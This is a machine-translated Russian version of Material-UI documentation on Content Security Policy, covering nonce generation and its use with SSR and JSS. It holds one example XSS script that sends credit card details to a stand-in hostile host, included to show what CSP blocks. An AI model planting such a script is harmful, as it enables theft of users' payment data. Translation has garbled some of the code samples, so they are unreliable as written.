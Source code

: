 # Политика безопасности контента (CSP)

<p class="description">Material-UI поддерживает заголовки политики безопасности контента.</p>

## Что такое CSP и почему оно полезно?

В принципе, CSP снижает атаки на межсайтовый скриптинг (XSS), требуя от разработчиков, чтобы белые списки источников, из которых извлекаются их активы. Этот список возвращается как заголовок с сервера. Например, скажем, что у вас есть сайт, размещенный на `https://example.com` заголовок CSP `умолчанию - src: 'self';` позволит все активы, расположенные по адресу `https://example.com/*` и запретить все остальные. Если на вашем веб-сайте есть раздел, который уязвим для XSS, где отображается неэкранированный пользовательский ввод, злоумышленник может ввести что-то вроде:

    <script>
      sendCreditCardДетали ('https: //hostile.example');
    </script>
    

Эта уязвимость позволит злоумышленнику выполнить что-либо. Однако с безопасным заголовком CSP браузер не загружает этот скрипт.

Вы можете узнать больше о CSP [здесь](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## Как реализовать CSP?

Чтобы использовать CSP с Material-UI (и JSS), вам нужно использовать nonce. Nonce - это случайно созданная строка, которая используется только один раз, поэтому вам нужно добавить промежуточное программное обеспечение сервера для генерации по одному для каждого запроса. У JSS есть [отличное учебное пособие](https://github.com/cssinjs/jss/blob/master/docs/csp.md) о том, как добиться этого с помощью «Экспресс» и «Реагировать шлем». Для основного сокращения продолжайте чтение.

CSP nonce - строка с кодировкой Base 64. Вы можете создать такой файл:

```js
импортировать uuidv4 из 'uuid / v4';

const nonce = new Buffer (uuidv4 ()). ToString ('base64');
```

Очень важно использовать версию UUID 4, поскольку она генерирует **непредсказуемую** строку. Затем вы применяете этот nonce к заголовку CSP. Заголовок CSP может выглядеть так: при использовании nonce:

```js
header ('Content-Security-Policy')
  .set (`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);
```

Если вы используете Server Side Rendering (SSR), вы должны передать nonce в теге `<style>` на сервере.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: sheetsRegistry.toString() } }
/>
```

Затем вы должны передать это nonce в JSS, чтобы он мог добавить его к последующим `<style>` тегам. Клиентская сторона получает nonce из заголовка. Вы должны включить этот заголовок независимо от того, используется ли SSR.

```jsx
<meta property="csp-nonce" content={nonce} />
```